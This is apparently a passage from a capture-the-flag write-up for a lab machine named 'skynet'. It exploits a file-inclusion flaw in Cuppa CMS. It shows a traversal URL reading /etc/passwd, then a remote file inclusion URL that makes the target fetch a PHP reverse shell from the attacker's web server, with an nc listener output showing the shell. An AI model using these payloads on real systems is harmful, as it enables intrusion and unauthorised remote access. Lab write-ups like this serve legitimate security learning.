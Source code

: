     # searchsploit -m php/webapps/25971.txt
      Exploit: Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion
          URL: https://www.exploit-db.com/exploits/25971
         Path: /usr/share/exploitdb/exploits/php/webapps/25971.txt
    File Type: C++ source, ASCII text, with very long lines (876)
    
    Copied to: /home/nina/Downloads/skynet/25971.txt

Confirm the [25971 exploit](https://www.exploit-db.com/exploits/25971)

| ![Confirmed](/_static/images/Screenshot from 2022-10-01 16-52-02.png) |
|:--:|
| http://10.10.56.232/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?<br>urlConfig=../../../../../../../../../etc/passwd |

It is vulnerable to Remote File Inclusion. 

## Exploit Remote File Inclusion

Use a reverse shell.

Start a listener:

    # nc -nlvp 1234
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::1234
    Ncat: Listening on 0.0.0.0:1234

[Download a PHP reverse shell](http://pentestmonkey.net/tools/php-reverse-shell) and edit it to use your local machine IP. 
 
Make it available via a python web server: 

    python3 -m http.server 8000
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.10.56.232 - - [01/Oct/2022 17:59:43] "GET /php-reverse-shell.php HTTP/1.0" 200 -
    10.10.56.232 - - [01/Oct/2022 18:04:11] "GET /php-reverse-shell.php HTTP/1.0" 200 -

And open `http://10.10.56.232/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.1.53:8000/php-reverse-shell.php` 
in your browser.

And connection:

    # nc -nlvp 1234
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::1234
    Ncat: Listening on 0.0.0.0:1234
    Ncat: Connection from 10.10.56.232.
    Ncat: Connection from 10.10.56.232:46822.
    Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
     12:04:11 up  2:20,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $
